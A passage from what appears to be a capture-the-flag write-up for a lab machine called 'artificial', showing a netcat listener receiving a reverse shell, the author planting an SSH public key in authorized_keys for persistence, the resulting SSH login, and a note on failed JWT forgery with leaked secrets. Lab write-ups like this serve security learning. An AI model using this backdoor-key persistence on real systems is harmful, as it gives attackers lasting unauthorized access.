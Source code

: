 To get persistence and save my sanity, I abused the fact that this had a spawnable shell and just added some public keys to the box.

```sh
 nc -lvn 9999
Listening on 0.0.0.0 9999
Connection received on 10.129.37.64 36846
app@artificial:~/app$ mkdir ~/.ssh
mkdir ~/.ssh
app@artificial:~/app$ echo "ssh-ed25519 AAAAC3Nza...UVdKr58BTNzZv" >> ~/.ssh/authorized_keys
<Z5e4pnFq2mNUVdKr58BTNzZv" >> ~/.ssh/authorized_keys
```
```sh
 ssh app@artificial.htb    
The authenticity of host 'artificial.htb (10.129.37.64)' can't be established.
ED25519 key fingerprint is SHA256:RfqGfdDw0WXbAPIqwri7LU4OspmhEFYPijXhBj6ceHs.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'artificial.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat 21 Jun 2025 07:46:34 PM UTC

  System load:           0.09
  Usage of /:            62.3% of 7.53GB
  Memory usage:          30%
  Swap usage:            0%
  Processes:             231
  Users logged in:       0
  IPv4 address for eth0: 10.129.37.64
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9e67


Expanded Security Maintenance for Infrastructure is not enabled.

0 updates can be applied immediately.

Enable ESM Infra to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Sat Jun 21 19:46:35 2025 from 10.10.14.31
app@artificial:~$ 
```
I spent some time here trying to forge JWTs with the littered jwt-secrets, to no avail.
